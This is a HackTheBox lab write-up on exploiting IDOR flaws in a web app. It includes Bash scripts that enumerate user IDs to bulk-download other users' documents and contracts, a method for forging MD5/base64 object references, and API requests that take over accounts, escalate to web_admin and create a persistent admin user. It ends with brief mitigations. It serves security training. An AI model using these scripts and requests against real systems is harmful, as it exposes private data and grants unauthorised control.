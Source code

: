 # HTB-Writeup-Insecure-Direct-Object-References
HackTheBox Writeup:  Mass IDOR Enumeration, API exploitation, and privilege escalation.

By Ramyar Daneshgar 



This writeup provides a deep technical walkthrough of how I exploited Insecure Direct Object References (IDOR) in a vulnerable web application. I systematically performed mass enumeration, bypassed encoded references, and achieved API privilege escalation. I used parameter fuzzing, API manipulation, access control evasion, and automated exploitation to escalate my privileges and compromise the application.

1. Mass IDOR Enumeration

Identifying the IDOR Vulnerability

As I began testing the target web application, I noticed that user-specific documents were accessible via a parameterized GET request:

http://SERVER_IP:PORT/documents.php?uid=1

Since the uid parameter was exposed in the URL, I suspected that access control validation might be missing on the backend. To confirm this, I manually changed the uid parameter to see if I could retrieve another user’s documents:

http://SERVER_IP:PORT/documents.php?uid=2

Upon executing this request, I received documents that clearly did not belong to me, confirming an IDOR vulnerability.

Manually Enumerating IDs

As I explored further, I noticed a predictable structure in the document filenames:

<li><a href='/documents/Invoice_2_08_2020.pdf'>Invoice</a></li>
<li><a href='/documents/Report_2_12_2020.pdf'>Report</a></li>

The presence of predictable naming conventions indicated that a forced browsing attack was possible. This meant that I could systematically guess document URLs and gain access to restricted files.

Automating Mass Enumeration

Since manually changing uid values was inefficient, I developed a Bash script to automate bulk extraction:

#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..100}; do  # Iterate through 100 user IDs
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
        wget -q $url/$link  # Download each document
    done
done

I was able to access confidential documents belonging to multiple users, bypassing access controls entirely.

2. Bypassing Encoded References

Understanding Reference Encoding

Upon further testing, I discovered that certain files were referenced using hashed values instead of numerical IDs. The application used an MD5 hash to obscure object references:

POST /download.php
Content-Type: application/x-www-form-urlencoded

contract=cdd96d3cc73d1dbdaffa03cc6cd7339b

This suggested an attempt at Secure Direct Object Referencing (SDOR) to prevent enumeration. However, I suspected the hash was predictable.

Reverse Engineering the Hashing Mechanism

I examined the front-end JavaScript source code and discovered the hashing logic:

function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}

I realized that the application was generating hashes by:

Base64 encoding the user ID (btoa(uid))

Applying an MD5 hash to the encoded value (CryptoJS.MD5())

Generating Valid Hashes

With this information, I was able to generate my own valid hashes for any given user ID:

for i in {1..100}; do
    echo -n $i | base64 -w 0 | md5sum | tr -d ' -'
done

Automating Exploitation

With a list of valid hashes, I wrote a script to download all contract files:

#!/bin/bash

for i in {1..100}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
done

I successfully retrieved contract files for all users, proving that the encoding mechanism was weak and easily bypassed.

3. IDOR in Insecure APIs

Analyzing API Weaknesses

I intercepted the profile update request in Burp Suite and saw the following PUT API request:

PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb"
}

I immediately noticed a major security flaw—the role value was stored in a client-side cookie (role=employee). Since the server was trusting this cookie for role-based access control, I had an opportunity for privilege escalation.

Privilege Escalation via API Tampering

 Modify Another User’s Profile

I attempted to modify another user’s details by changing the uid in my request:

PUT /profile/api.php/profile/2
Content-Type: application/json
Cookie: role=employee

{
    "uid": 2,
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "full_name": "Hacked User",
    "email": "hacked@employees.htb"
}

 I successfully changed another user’s email, enabling me to take over their account via password reset.

Escalate to Admin Role

I escalated my privileges by modifying my role to web_admin:

PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "role": "web_admin"
}

 I now had full administrator privileges over the system.

 Create a New Admin Account

To maintain persistence, I created a new admin account:

POST /profile/api.php/profile
Content-Type: application/json
Cookie: role=web_admin

{
    "uid": 100,
    "role": "web_admin",
    "full_name": "Attacker",
    "email": "attacker@employees.htb"
}

 I could now create, delete, and modify any user accounts, achieving total system compromise.

4. Mitigation Strategies

Vulnerability

Mitigation

Mass IDOR Enumeration

Implement Role-Based Access Control (RBAC) and enforce backend validation.

Bypassing Encoded References

Use strong, non-predictable UUIDs instead of simple hashes.

Insecure API Calls

Perform server-side access control checks rather than relying on client-controlled tokens.



